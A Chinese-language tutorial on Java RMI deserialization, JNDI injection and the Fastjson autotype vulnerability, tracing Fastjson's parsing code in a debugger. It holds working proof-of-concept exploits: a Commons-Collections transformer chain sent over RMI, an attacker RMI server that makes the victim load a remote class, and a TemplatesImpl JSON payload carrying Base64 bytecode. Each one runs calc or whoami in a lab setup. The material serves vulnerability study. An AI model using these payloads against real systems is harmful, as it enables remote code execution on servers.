在了解Fastjson漏洞前，先了解一下RMI机制和JNDI注入，这在后面的Weblogic漏洞中也会有所涉及。
RMI反序列化
在Java里面简单来说使用Java调用远程Java程序使用的就是RMI，调用C的程序调用的是JNI，调用python程序使用到的是Jython。RMI、JNI、Jython，其实在安全中都能发挥比较大的作用。 JNI在安全里面的运用就比较大了，既然可以调用C语言，就可以操作指针，后面懂得都懂。
Java本身对RMI规范的实现默认使用的是JRMP协议。而在Weblogic中对RMI规范的实现使用T3协议。
JRMP：Java Remote Message Protocol ，Java 远程消息交换协议。这是运行在Java RMI之下、TCP/IP之上的线路层协议。该协议要求服务端与客户端都为Java编写，就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。
RMI概述：RMI（Remote Method Invocation）为远程方法调用，是允许运行在一个Java虚拟机的对象调用运行在另一个Java虚拟机上的对象的方法。 这两个虚拟机可以是运行在相同计算机上的不同进程中，也可以是运行在网络上的不同计算机中。
不同于socket,RMI中分为三大部分：Server、Client、Registry 。
Server: 提供远程的对象
Client: 调用远程的对象
Registry: 一个注册表，存放着远程对象的位置（ip、端口、标识符）
基础应用
定义一个远程的接口
import java.rmi.Remote; import java.rmi.RemoteException; public interface RmiInterface extends Remote { public String hello() throws RemoteException; }接口的实现类
import java.rmi.RemoteException; import java.rmi.server.UnicastRemoteObject; public class RmiImpl extends UnicastRemoteObject implements RmiInterface { protected RmiImpl() throws RemoteException{ System.out.println("构造方法"); } @Override public String hello() throws RemoteException { System.out.println("demo方法被调用"); return "hello,world"; } }创建服务器实例，并且创建一个注册表，将需要提供给客户端的对象注册到注册表中
import java.rmi.RemoteException; import java.rmi.registry.LocateRegistry; import java.rmi.registry.Registry; public class RmiServer { public static void main(String[] args) throws RemoteException { RmiInterface demo = new RmiImpl(); //创建远程对象 Registry registry = LocateRegistry.createRegistry(1099);//创建注册表 registry.rebind("demo",demo);//将远程对象注册到注册表里面，并且设置值为demo } }创建客户端实例
import java.rmi.NotBoundException; import java.rmi.RemoteException; import java.rmi.registry.LocateRegistry; import java.rmi.registry.Registry; public class RmiClient { public static void main(String[] args) throws RemoteException, NotBoundException { Registry registry = LocateRegistry.getRegistry("localhost", 1099);//获取远程主机对象 // 利用注册表的代理去查询远程注册表中名为hello的对象 RmiInterface hello = (RmiInterface) registry.lookup("demo"); // 调用远程方法 System.out.println(hello.hello()); } }运行结果：
 
反序列化攻击
使用到RM进行反序列化攻击需要两个条件：接收Object类型的参数、RMI的服务端存在执行命令利用链。
对上面代码做一个简单的改写
远程接口代码：
import java.rmi.Remote; import java.rmi.RemoteException; public interface RmiInterface extends Remote { public String hello() throws RemoteException; void work(Object obj) throws RemoteException; void say() throws RemoteException; }Server实现：
import java.rmi.RemoteException; import java.rmi.registry.LocateRegistry; import java.rmi.registry.Registry; public class RmiServer { public static void main(String[] args) throws RemoteException { RmiInterface demo = new RmiImpl(); //创建远程对象 Registry registry = LocateRegistry.createRegistry(1099);//创建注册表 registry.rebind("demo",demo);//将远程对象注册到注册表里面，并且设置值为demo System.out.println("rmi running...."); } }Client代码：
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
public class Client {
public static void main(String[] args) throws MalformedURLException, NotBoundException, RemoteException {
String url = "rmi://192.168.20.130:1099/user";
RmiInterface userClient = (RmiInterface) Naming.lookup(url);
userClient.work(getpayload());
}
private static Object getpayload() {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map map = new HashMap();
map.put("value", "sijidou");
Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Retention.class, transformedMap);
return instance;
}
}执行客户端后就会执行我们设置好要执行的命令，也就是弹出计算器。
JNDI注入
了解完RMI反序列化攻击，再了解一下JNDI注入，是Fastjson反序列化漏洞的攻击手法之一。
JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。
JNDI可访问的现有的目录及服务有：
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。
什么是Naming？
是个抽象概念，名称服务普遍存在于计算机系统中，比如:
- DNS: 通过域名查找实际的 IP 地址；
- 文件系统: 通过文件名定位到具体的文件；
- 微信: 通过一个微信 ID 找到背后的实际用户(并进行对话)；
我们通常根据名称系统(naming system)定义的命名规则去查找具体的对象。
UNIX 文件系统中，名称(路径)规则就是以根目录为起点，并以
/号分隔逐级查找子目录DNS 名称系统中则是要求名称(域名)从右到左 进行逐级定义，并以点号
.进行分隔
值得一提的是LDAP，名称从右到左进行逐级定义，各级以逗号分隔，每级为一个 name/value 对，以等号分隔。
样例：
cn=John, o=Sun, c=US什么是Directory？
目录服务是名称服务的一种拓展，除了名称服务中已有的名称到对象的关联信息外，还允许对象拥有属性(attributes)信息。
以打印机服务为例，我们可以在命名服务中根据打印机名称去获取打印机对象(引用)，然后进行打印操作；同时打印机拥有速率、分辨率、颜色等属性，作为目录服务，用户可以根据打印机的分辨率去搜索对应的打印机对象。
一些典型的目录服务有:
- NIS: Network Information Service，Solaris 系统中用于查找系统相关信息的目录服务；
- Active Directory 为 Windows 域网络设计，包含多个目录服务，比如域名服务、证书服务等；
- 其他基于 LDAP 协议实现的目录服务；
什么是JNDI？
在 Java 应用中除了以常规方式使用名称服务(比如使用 DNS 解析域名)，另一个常见的用法是使用目录服务作为对象存储的系统，即用目录服务来存储和获取 Java 对象。
比如对于打印机服务，我们可以通过在目录服务中查找打印机，并获得一个打印机对象，基于这个 Java 对象进行实际的打印操作。
为此，就有了 JNDI，即 Java 的名称与目录服务接口，应用通过该接口与具体的目录服务进行交互。
JNDI 架构上主要包含两个部分，即Java 的应用层接口和 SPI
SPI 全称为 Service Provider Interface，即服务供应接口，主要作用是为底层的具体目录服务提供统一接口，从而实现目录服务的可插拔式安装。在 JDK 中包含了下述内置的目录服务:
- RMI: Java Remote Method Invocation，Java 远程方法调用；
- LDAP: 轻量级目录访问协议；
- CORBA: Common Object Request Broker Architecture，通用对象请求代理架构，用于 COS 名称服务(Common Object Services)；
除此之外，用户还可以在 Java 官网下载其他目录服务实现。由于 SPI 的统一接口，厂商也可以提供自己的私有目录服务实现，用户可无需重复修改代码。
JNDI 接口主要分为下述 5 个包:
其中最重要的是 javax.naming 包，包含了访问目录服务所需的类和接口，比如 Context、Bindings、References、lookup 等。
什么是SPI
目录服务本身和 JNDI 有没直接耦合性，但基于 SPI 接口和 JNDI 构建起了重要的联系。SPI有RMI，LDAP，CORBA
JNDI注入
背景知识总算介绍完了，接下来开始深入 JNDI 注入的原理。除了 RMI 是 Java 特有的远程调用框架，其他两个都是通用的服务和标准，可以脱离 Java 独立使用。
JNDI是当上文代码中jndiName这个变量可控时，引发的漏洞，它将导致远程class文件加载，从而导致远程代码执行。
POC：
Client（受害者）
import javax.naming.Context;
import javax.naming.InitialContext;
public class CLIENT {
public static void main(String[] args) throws Exception {
String uri = "rmi://127.0.0.1:1099/aa";
Context ctx = new InitialContext();
ctx.lookup(uri);
}
}SERVER.java(攻击者部署)
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;
public class SERVER {
public static void main(String args[]) throws Exception {
Registry registry = LocateRegistry.createRegistry(1099);
Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
registry.bind("aa", refObjWrapper);
}
}ExecTest.java(攻击者部署)
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class ExecTest {
public ExecTest() throws IOException,InterruptedException{
String cmd="whoami";
final Process process = Runtime.getRuntime().exec(cmd);
printMessage(process.getInputStream());;
printMessage(process.getErrorStream());
int value=process.waitFor();
System.out.println(value);
}
private static void printMessage(final InputStream input) {
// TODO Auto-generated method stub
new Thread (new Runnable() {
@Override
public void run() {
// TODO Auto-generated method stub
Reader reader =new InputStreamReader(input);
BufferedReader bf = new BufferedReader(reader);
String line = null;
try {
while ((line=bf.readLine())!=null)
{
System.out.println(line);
}
}catch (IOException e){
e.printStackTrace();
}
}
}).start();
}
}ReferenceWrapper这个库可能在新版的JDK8没有，需要自己下载
Fastjson反序列化漏洞
在前面的RMI和JNDI注入学习里面为本次的Fastjson打了一个比较好的基础。利于后面的漏洞分析。在分析漏洞前，还需要学习一些Fastjson库的简单使用（这个在我的Java学习中涉及到），这里简单复习一下。
Fastjson序列化
定义实体类：
public class User {
private Integer age;
private String name;
public Integer getAge() {
return age;
}
public void setAge(Integer age) {
this.age = age;
}
public String getName() {
return name;
}
public void setName(String name) {
this.name = name;
}
}
test类：
import com.alibaba.fastjson.JSON;
public class test {
public static void main(String[] args) {
User user = new User();
user.setAge(18);
user.setName("xiaoming");
String s = JSON.toJSONString(user, SerializerFeature.WriteClassName);
System.out.println(s);
}
}运行后结果为：
它和普通json序列化有所不同。在调用toJSONString方法的时候，参数里面多了一个SerializerFeature.WriteClassName方法。传入SerializerFeature.WriteClassName可以使得Fastjson支持自省，开启自省后序列化成JSON的数据就会多一个@type，这个是代表对象类型的JSON文本。FastJson的漏洞就是他的这一个功能去产生的，在对该JSON数据进行反序列化的时候，会去调用指定类中对于的get/set/is方法
Fastjson反序列化
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;
public class test {
public static void main(String[] args) {
User user = new User();
user.setAge(18);
user.setName("xiaoming");
String s1 = JSON.toJSONString(user, SerializerFeature.WriteClassName);
JSONObject jsonObject = JSON.parseObject(s1);
System.out.println(jsonObject);
}
}这种方式返回的是一个JSONObject的对象。
JSON.parseObject的底层调用的是JSON.parse方法，只是在JSON.parse的基础上做了一个封装。
漏洞原理：
漏洞是利用fastjson autotype在处理json对象的时候，未对@type字段进行完全的安全性验证，攻击者可以传入危险类，并调用危险类连接远程rmi主机，通过其中的恶意类执行代码。攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作，对服务器造成巨大的影响。
漏洞攻击方式
在Fastjson这个反序列化漏洞中是使用TemplatesImpl和JdbcRowSetImpl（这里留个坑）利用链构造恶意代码实现命令执行
什么是TemplatesImpl利用链？
我们都知道 Java 的 ClassLoader 是用来加载字节码文件最基础的方法（具体详见我的Java类文章——类加载器）。
ClassLoader 处理字节码的流程为 loadClass -> findClass -> defineClass
loadClass: 从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机制），在前面没有找到的情况下，执行 findClass
findClass: 根据基础URL指定的方式来加载类的字节码
defineClass：处理前面传入的字节码，将其处理成真正的Java类
所以将字节码转为 java 类的其实是 defineClass 方法。
ClassLoader 的 defineClass 方法只能通过反射调用，在实际环境中很难有利用场景。但是在 TemplatesImpl 类中有一个内部类 TransletClassLoader 它重写了 defineClass，并且这里没有显式地声明其定义域。Java中默认情况下，如果一个方法没有显式声明作用域，其作用域为default。所以也就是说这里的 defineClass 由其父类的 protected 类型变成了一个 default 类型的方法，可以被类外部调用。
我们看一下这个类和TransletClassLoader方法
位置：
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl但是 TransletClassLoader 是内部类，只允许 TemplatesImpl 类中的方法调用，我们跟一下有哪些方法用到了 TransletClassLoader。
TemplatesImpl 类中只有一个方法 defineTransletClasses 用到了 TransletClassLoader 类，但是 defineTransletClasses 是 private 类型。继续跟看哪调用了 defineTransletClasses 方法。
有三个方法调用了 defineTransletClasses(), 其中 getTransletIndex() 是 public 类型的。
getTransletClasses() 和 TemplatesImpl#getTransletInstance() 是 private 属性的。
 所以可以直接用getTransletIndex()方法。而getTransletInstance() 方法在 public synchronized Transformer newTransformer 方法中被调用了。
所以到这又有一条调用链
TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass() 再继续跟进 TemplatesImpl#newTransformer() 发现 TemplatesImpl#getOutputProperties() 调用了 TemplatesImpl#newTransformer() 并且它也是 public 类型的
总结一下三条调用链
TemplatesImpl#getTransletIndex() -> TemplatesImpl#defineTransletClasses()->TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()->TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()TemplatesImpl#getOutputProperties() ->TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()->TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass() Fastjson漏洞复现
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.codec.binary.Base64;
public class Poc {
public static class test{
}
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass cc = pool.get(test.class.getName());
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "nice0e3"+System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
try {
byte[] evilCode = cc.toBytecode();
String evilCode_base64 = Base64.encodeBase64String(evilCode);
final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
String text1 = "{"+
"\"@type\":\"" + NASTY_CLASS +"\","+
"\"_bytecodes\":[\""+evilCode_base64+"\"],"+
"'_name':'a.b',"+
"'_tfactory':{ },"+
"'_outputProperties':{ }"+
"}\n";
System.out.println(text1);
ParserConfig config = new ParserConfig();
Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
} catch (Exception e) {
e.printStackTrace();
}
}
}
- @type ：用于存放反序列化时的目标类型，这里指定的是
TemplatesImpl这个类，Fastjson会按照这个类反序列化得到实例，因为调用了getOutputProperties方法，实例化了传入的bytecodes类，导致命令执行。需要注意的是，Fastjson默认只会反序列化public修饰的属性，outputProperties和_bytecodes由private修饰，必须加入Feature.SupportNonPublicField在parseObject中才能触发； - _bytecodes：继承
AbstractTranslet类的恶意类字节码，并且使用Base64编码 - _name：调用
getTransletInstance时会判断其是否为null，为null直接return，不会往下进行执行，利用链就断了。 - _tfactory：
defineTransletClasses中会调用其getExternalExtensionsMap方法，为null会出现异常,但在前面分析jdk7u21链的时候，部分jdk并未发现该方法。 - outputProperties：漏洞利用时的关键参数，由于Fastjson反序列化过程中会调用其
getOutputProperties方法，导致bytecodes字节码成功实例化，造成命令执行。 - 加入
Feature.SupportNonPublicField才能触发是因为Feature.SupportNonPublicField的作用是支持反序列化使用非public修饰符保护的属性，在Fastjson中序列化private属性。
查看一下TemplatesImpl，返现其中都为private修饰。
Fastjson反序列化漏洞漏洞分析
断点分析
我们看一下反序列化的parseObject函数源码
这里有几个参数传入，并直接调用了parseObject的重载方法。
几个参数分别是input、clazz、config、features。
input传递进来的是需要反序列化的数据，这里即是我们的payload数据。
clazz为指定的对象，这里是Object.class对象
config则是ParserConfig的实例对象
features参数为反序列化反序列化private属性所用到的一个参数。
这里实例化了一个DefaultJSONParser，并调用parseObject方法，跟踪parseObject。

调用derializer.deserialze方法。
来到JavaObjectDeserilizer类

里是个三目运算，type是否为Class对象并且type不等于 Object.class，type不等于
Serializable.class条件为true调用parser.parseObject,条件为flase调用parser.parse。很显然这里会调用parser.parse方法
回看我们代码中的DefaultJSONParser被创建的时候。
public DefaultJSONParser(String input, ParserConfig config, int features) {
this(input, new JSONScanner(input, features), config);
}调用重载方法
public DefaultJSONParser(Object input, JSONLexer lexer, ParserConfig config) {
this.dateFormatPattern = JSON.DEFFAULT_DATE_FORMAT;
this.contextArrayIndex = 0;
this.resolveStatus = 0;
this.extraTypeProviders = null;
this.extraProcessors = null;
this.fieldTypeResolver = null;
this.lexer = lexer;
this.input = input;
this.config = config;
this.symbolTable = config.symbolTable;
int ch = lexer.getCurrent();
if (ch == '{') {
lexer.next();
((JSONLexerBase)lexer).token = 12;
} else if (ch == '[') {
lexer.next();
((JSONLexerBase)lexer).token = 14;
} else {
lexer.nextToken();
}
}这里面去调用 lexer.getCurrent()跟踪代码发现就是从lexer返回ch的值。而下面的这段代码
int ch = lexer.getCurrent();
if (ch == '{') {
lexer.next();
((JSONLexerBase)lexer).token = 12;
} else if (ch == '[') {
lexer.next();
((JSONLexerBase)lexer).token = 14;
} else {
lexer.nextToken();
}调用lexer.getCurrent()，获取到是ch中数据如果为{就将lexer.token设置为12，如果为[设置 lexer.token设置为14。
调用lexer.getCurrent()，获取当前字符这里获取到的是双引号。lexer这个是JSONScanner实例化对象，里面存储了前面传入的Json数据，但是这里疑问又来了，既然是Json的数据，那么前面的{去哪了呢？为什么这里获取到的不是这个{花括号。
还记得我们前面加载DefaultJSONParser重载方法的时候new JSONScanner(),跟踪查看他的构造方法就知道了
public JSONScanner(String input, int features) {
super(features);
this.text = input;
this.len = this.text.length();
this.bp = -1;
this.next();
if (this.ch == '\ufeff') {
this.next();
}
}构造方法里面调用了this.next();
public final char next() {
int index = ++this.bp;
return this.ch = index >= this.len ? '\u001a' : this.text.charAt(index);
}返回com.alibaba.fastjson.parser.DefaultJSONParser#parse进行跟踪代码。
public Object parse(Object fieldName) {
JSONLexer lexer = this.lexer;
switch(lexer.token()) {
case 1:
case 5:
case 10:
case 11:
case 13:
case 15:
case 16:
case 17:
case 18:
case 19:
...
case 12:
JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
return this.parseObject((Map)object, fieldName);通过刚刚的分析得知这里的lexer.token()等于12会走到case 12:
case 12:
JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
value = this.parseObject((Map)object, i);
break;这里可以看到获取下一个字符是否为双引号，而后去调用lexer.scanSymbol方法进行提取对应内容数据。
查看一下参数this.symbolTable。
JSON.class里

这里则是提取了@type
接着我们看一下DefaultJSONParser类

判断key是否等于@type,等于则获取@type中的值，接着则是调用反射将这个类名传递进去获取一个方法获取类对象。
接着走到这里
我们来看一下JavaBeanDeserializer类中。
上面的代码中直接就获取到了outputProperties跟踪一下，sortedFieldDeserializers.fieldInfo是怎么被赋值的。
查看发现是在构造方法被赋值的，也就是实例化对象的时候
public JavaBeanDeserializer(ParserConfig config, JavaBeanInfo beanInfo) {
this.clazz = beanInfo.clazz;
this.beanInfo = beanInfo;
this.sortedFieldDeserializers = new FieldDeserializer[beanInfo.sortedFields.length];
int i = 0;
int size;
FieldInfo fieldInfo;
FieldDeserializer fieldDeserializer;
for(size = beanInfo.sortedFields.length; i < size; ++i) {
fieldInfo = beanInfo.sortedFields[i];
fieldDeserializer = config.createFieldDeserializer(config, beanInfo, fieldInfo);
this.sortedFieldDeserializers[i] = fieldDeserializer;
}返回上层，JavaBeanDeserializer是在this.config.getDeserializer被创建的，跟进一下

return this.getDeserializer((Class)type, type);⬇
derializer = this.createJavaBeanDeserializer(clazz, (Type)type);⬇
beanInfo = JavaBeanInfo.build(clazz, type, this.propertyNamingStrategy);⬇
boolean match = this.parseField(parser, key, object, type, fieldValues);接着来到了com.alibaba.fastjson.util.JavaBeanInfo#build
下面有几个关键代码


在通过@type获取类之后，通过反射拿到该类所有的方法存入methods，接下来遍历methods进而获取get、set方法
set的查找方式：
- 方法名长度大于4
- 非静态方法
- 返回值为void或当前类
- 方法名以set开头
- 参数个数为1
get的查找方式：
- 方法名长度大于等于4
- 非静态方法
- 以get开头且第4个字母为大写
- 无传入参数
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong
这样一来就获取到了TemplatesImpl的getOutputProperties()

返回com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#deserialze继续调试跟踪
前面都是重复的内容，遍历去获取json中的内容。
直接定位到这一步进行跟踪
